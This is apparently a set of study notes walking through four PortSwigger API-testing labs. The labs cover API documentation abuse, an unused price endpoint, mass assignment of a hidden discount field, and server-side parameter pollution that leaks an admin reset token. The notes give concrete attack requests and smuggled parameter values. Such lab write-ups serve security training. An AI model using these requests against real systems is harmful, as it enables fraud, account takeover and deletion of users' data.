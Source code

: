# 1. Exploiting an API endpoint using documentation: [Link](https://portswigger.net/web-security/api-testing/lab-exploiting-api-endpoint-using-documentation)
- Update the email > In Proxy > HTTP history, right-click the `PATCH /api/user/wiener` request and select Send to Repeater.
> The GET method requests a representation of the specified resource. Requests using GET should only retrieve data.
- Find the documentation: `GET /api/ HTTP/2`
- Delete the user: `DELETE /api/user/carlos HTTP/2`


# 2. [Finding and exploiting an unused API endpoint](https://portswigger.net/web-security/api-testing/lab-exploiting-unused-api-endpoint)
- Update the email > In Proxy > HTTP history, right-click the `GET /api/products/4/price HTTP/2` request and select Send to Repeater.
> The GET method requests a representation of the specified resource. Requests using GET should only retrieve data.
- Change the Method: `PATCH /api/products/1/price HTTP/2` > `"error":"Only 'application/json' Content-Type is supported"`
- Add `Content-Type: application/json` & {"price": 0} in body
- It will update the Price in the Application.
- ![image](https://github.com/user-attachments/assets/2131ee78-052c-417f-b043-c6b6e9b93d09)

# 3: [Exploiting a mass assignment vulnerability](https://portswigger.net/web-security/api-testing/lab-exploiting-mass-assignment-vulnerability)
- `Mass Assignment vulnerabilities` happen when an application automatically processes user input and assigns it to internal data (like user profiles) without checking what should or shouldn't be updated. This allows attackers to send extra information (like changing their user role to "admin") that the developers didn't intend to allow.
- Identifying hidden parameters: Since mass assignment creates parameters from object fields, you can often identify these hidden parameters by manually examining objects returned by the API.

### Steps:
- Look for the Endpoint, /api/checkout > Observe the Requests (Get/Post)

```JSON
POST request:
{"chosen_products":[{"product_id":"1","quantity":1}]}

Get Request:
{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}

Observe that the JSON structure in the GET response includes a chosen_discount parameter, which is not present in the POST request.
```
- Send Post request to Repeater > Add the `"chosen_discount":{"percentage":0}` Hidden Parameter in JSON & Send it > No Error
- Now, `"chosen_discount":{"percentage":100}` to solve the Lab.

# 4. 
Forget PWD > Send POST /forget-password request to Repeater > try to find the field after username.

```
Using &, # (Encoded)
csrf=CIlPp7mw3jOCiOHaYTA4yvfgIhm02LyV&username=administrator

Observe Error:
csrf=CIlPp7mw3jOCiOHaYTA4yvfgIhm02LyV&username=administrator
csrf=CIlPp7mw3jOCiOHaYTA4yvfgIhm02LyV&username=administrator&x=y (to check if business logic fails)
csrf=CIlPp7mw3jOCiOHaYTA4yvfgIhm02LyV&username=administrator# (To truncate the next parameter) > Invalid Field i.e field is the Parameter
csrf=CIlPp7mw3jOCiOHaYTA4yvfgIhm02LyV&username=administrator&field=x# (try to give invalid value & observe error)
csrf=CIlPp7mw3jOCiOHaYTA4yvfgIhm02LyV&username=administrator&field=$x$# (In Intruder, use Server Side Variable name List)
csrf=CIlPp7mw3jOCiOHaYTA4yvfgIhm02LyV&username=administrator%26field=email%23 (email value returns 200)
csrf=CIlPp7mw3jOCiOHaYTA4yvfgIhm02LyV&username=administrator%26field=reset_token%23 (returns a token value)
Copy the token value & send pass it to reset pwd link > PWD reset page will show > set the pwd > login to Admin account & del the User > DONE.

```








